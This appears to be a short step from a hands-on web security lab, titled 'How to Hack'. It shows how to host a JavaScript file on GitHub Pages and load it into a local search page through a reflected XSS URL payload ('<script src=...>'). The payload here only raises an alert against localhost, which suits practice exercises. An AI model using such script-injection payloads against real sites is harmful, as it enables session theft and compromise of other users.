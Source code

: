 # How to Hack

- Now we need to host our alert payload somewhere on GitHub
- We can e.g. create a new repository, add a file called `xss.js` with the content `alert('XSS');`
- Now, we host this repository via `GitHub Pages`
    - We can now access this file via `https://dub-flow.github.io/xss-test/xss.js`
- Finally, we do the same as in `../day-2` but provide the link to the `xss.js`, e.g.: http://localhost:3000/search?term=<script%20src="https://dub-flow.github.io/xss-test/xss.js"></script>
